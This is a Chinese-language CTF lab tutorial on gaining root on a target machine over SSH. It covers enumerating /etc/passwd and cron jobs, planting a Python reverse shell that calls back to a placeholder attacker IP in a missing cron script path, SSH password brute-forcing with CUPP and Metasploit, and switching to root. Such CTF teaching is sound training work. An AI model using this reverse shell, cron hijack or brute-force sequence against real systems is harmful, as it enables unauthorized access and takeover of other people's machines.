# CTF夺旗赛教程：P8：SSH服务测试（获取root权限）🚩



在本节课中，我们将学习如何通过SSH服务渗透靶机，并最终获取root权限以读取flag文件。我们将从信息收集开始，探索权限提升的多种途径，包括利用定时任务和暴力破解。





## 信息收集与初步探索



上一节我们使用martin用户登录了服务器，并发现其权限不足。本节中我们来看看如何收集更多系统信息，为提权寻找突破口。





首先，我们可以查看系统上的用户和用户组列表。

以下是查看系统用户和组信息的命令：
*   `cat /etc/passwd`：查看所有用户列表。
*   `cat /etc/group`：查看所有用户组列表。



我们还可以查找属于特定用户的文件，并检查临时目录。



以下是检查文件和目录的命令：
*   `find / -user <用户名>`：在根目录下查找属于指定用户的文件。
*   检查 `/tmp` 目录：查看是否有可利用的临时文件。

完成初步信息收集后，若未发现明显可利用点，我们需要进行更深入的挖掘。

## 深入挖掘：定时任务（Cron Jobs）🔍

在CTF比赛中，一个需要特别关注的位置是系统的定时任务配置文件。

`/etc/crontab` 文件用于设定系统定期执行的任务，通常需要root权限编辑。不同用户可以在此设定不同时间执行的任务。我们的目标是检查是否有用户设定了任务，但对应的可执行文件缺失或权限配置不当。

如果发现某个用户（例如jim）在 `/tmp` 目录下设定了定时执行Python脚本的任务，但该脚本文件不存在，我们就可以利用此漏洞。

**利用思路**：在对应位置创建该任务文件，并写入反弹shell代码。当定时任务执行时，就会将shell会话反弹到我们控制的攻击机上。

## 实践：利用定时任务反弹Shell

首先，我们查看定时任务配置文件的内容。
```bash
cat /etc/crontab
```
假设我们发现一条记录：用户 `jim` 每5分钟执行一次 `/tmp/security.py` 文件，但该文件不存在。

接下来，我们需要编写一个反弹shell的Python脚本。其核心是创建一个网络套接字，连接到攻击机的监听端口，并将标准输入、输出、错误流重定向到该套接字，从而获得一个交互式shell。

以下是一个简单的Python反弹shell代码示例：
```python
#!/usr/bin/env python3
import socket, subprocess, os
s = socket.socket()
s.connect(("攻击机IP", 监听端口))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
p = subprocess.call(["/bin/bash", "-i"])
```

在攻击机上，使用 `netcat` 工具监听指定端口。
```bash
nc -lvp 4445
```

然后，在靶机的 `/tmp` 目录下，将包含上述代码的脚本命名为 `security.py`，并赋予其执行权限。
```bash
chmod +x /tmp/security.py
```

等待定时任务执行，攻击机的 `netcat` 监听端就会收到一个来自 `jim` 用户的shell会话。

## 权限提升与最终突破🔑

通过定时任务获得 `jim` 用户的shell后，我们发现其权限依然有限，无法直接提权。此时，我们需要转向其他用户。

回顾之前收集的用户列表，我们还有 `handi` 用户未尝试。由于没有其密码，我们可以尝试对SSH服务进行暴力破解。

首先，使用工具（如 `CUPP`）生成针对 `handi` 用户名的个性化密码字典。
```bash
./cuppy -i
```

然后，使用渗透测试框架（如 `Metasploit`）的 `ssh_login` 扫描模块进行暴力破解。
```bash
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 靶机IP
set USERNAME handi
set PASS_FILE 字典文件路径
run
```

成功破解出密码（例如 `handi123`）后，我们可以SSH登录 `handi` 用户。登录后，通过执行Python代码优化shell交互界面。
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

最后，尝试切换到 `root` 用户。
```bash
su - root
```
输入 `handi123` 密码后，我们成功获得了 `root` 权限。



## 获取Flag🏁



获得root权限后，通常可以在根目录下找到flag文件。
```bash
whoami
# 输出: root
ls /root
cat /root/flag.txt
```
执行以上命令，即可成功读取flag值，完成挑战。

## 总结📝

本节课我们一起学习了针对SSH服务的完整渗透流程：
1.  **信息收集**：查看用户、组、文件及定时任务，寻找薄弱点。
2.  **利用定时任务**：通过写入恶意脚本到缺失的定时任务路径，实现权限获取。
3.  **暴力破解**：当已知用户密码未知时，使用工具生成字典并暴力破解SSH密码。
4.  **权限提升**：利用获取到的用户凭证，尝试切换至 `root` 用户。
5.  **获取Flag**：在root权限下，定位并读取最终的flag文件。



关键点在于时刻关注 `/tmp` 临时目录和 `/etc/crontab` 定时任务文件，这两者常是CTF中结合考查的重点。